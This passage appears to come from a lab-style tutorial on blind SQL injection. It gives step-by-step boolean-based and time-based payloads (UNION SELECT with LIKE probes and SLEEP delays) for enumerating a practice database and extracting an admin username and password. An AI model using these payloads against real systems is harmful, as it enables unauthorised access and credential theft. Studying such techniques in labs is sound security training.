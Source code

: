  Sequentially change the character and check the respons is true or flase
 suppose we got the ***database name  :sqli_three***
 
#### Step 3:Find out table name
 
 
      admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';--         
      
Sequentially change the character and check the respons is true or flase
suppose we got the ***table name  :users***
#### Step 4:Find out Column name
     
      admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id';

After,sequentially Repeating this process you will get column name.
suppose, the ***column name username and another is password***

#### Step 5:Find out username column value
      
      admin123' UNION SELECT 1,2,3 from users where username like 'a%
 
 After,sequentially Repeating this process you will get ***column username value and this is:admin.***
 
#### Step 6:Find out password column value

        admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%

if you properly do this , you will get ***password and the credentials are username=admin ,password=3356 ***

# Time Base SQL Injection

A time-based blind SQL Injection is very similar to the above Boolean based, in that the same requests are sent, but there is no visual indicator of your queries being wrong or right this time. Instead, your indicator of a correct query is based on the time the query takes to complete. This time delay is introduced by using built-in methods such as ***SLEEP(x)*** alongside the UNION statement. The SLEEP() method will only ever get executed upon a successful UNION SELECT statement. 
So, for example, when trying to establish the number of columns in a table, you would use the following query:
      
      admin123' UNION SELECT SLEEP(5);--
      
#### Step 1:Find out actual column number
      
      admin123' UNION SELECT SLEEP(5);--
If there was no pause in the response time, we know that the query was unsuccessful, so like on previous tasks, we add another column:
      
      admin123' UNION SELECT SLEEP(5),2;--
if again no pause in the response time , increase column number like
      
      admin123' UNION SELECT SLEEP(5),2,3;--
### Step 2:Find out database name 
      admin123' UNION SELECT SLEEP(5),2,3 where database() like 'u%';--
Here dabase ***name :sqli_four***     
### Step 3:Find out table name
      admin123' UNION SELECT SLEEp(5),2,3 FROM information_schema.tables WHERE table_schema = 'sqli_four' and table_name like 'a%';--
Here ***table name:users***
